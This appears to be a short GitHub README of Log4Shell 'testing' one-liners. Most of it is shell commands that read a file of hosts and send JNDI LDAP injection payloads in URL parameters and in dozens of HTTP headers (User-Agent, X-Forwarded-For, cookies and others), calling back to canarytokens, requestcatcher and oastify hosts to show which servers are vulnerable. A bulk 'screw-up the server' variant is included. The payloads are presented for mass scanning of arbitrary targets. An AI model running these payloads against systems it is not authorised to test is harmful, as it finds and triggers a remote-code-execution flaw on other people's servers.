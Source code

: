 # log4shell

# Log4Shell Some Proved Testing Methods
 
By: https://twitter.com/nav1n0x
 
# Oneliner 1:
$ cat vulnerable-hosts.txt | sed 's/https\?:\/\///' | xargs -I {} echo '{}/${jndi:ldap://{}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' >> L4SFuzzList
$ httpx -l L4SFuzzList
#Oneliner 2:
$ cat 1.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}";done (Credit:https://twitter.com/HackerGautam/status/1469751218926882816)
 
# The Great resource to learn and earn:
https://github.com/pentesterland/Log4Shell
 
# Screw-up the server (Run on your own risk). Gives you a lot fase-positives, but need to retest with other tools to confirm the valodation: 
cat vulnerable-hosts.txt |  httpx -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Cookie: mt.v=${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Cookie: CID_CART_COOKIE=${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'User-Agent: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'User-Agent: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Referer: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Origin: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Language: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-By: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-For: \${jndi:ldap://${hostName}.L4J.zdgnnnz669jsqwlr243a74pk1b72v5ju.oastify.com/a}' -H 'X-Forwarded-For-Original: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Host:${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Port: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Proto: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Protocol: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Scheme: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Server: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Ssl: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarder-For: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forward-For: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forward-Proto: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Frame-Options: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-From: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Geoip-Country: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-XSRF-TOKEN: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Datetime: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Charset: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Encoding: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Language: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}'
 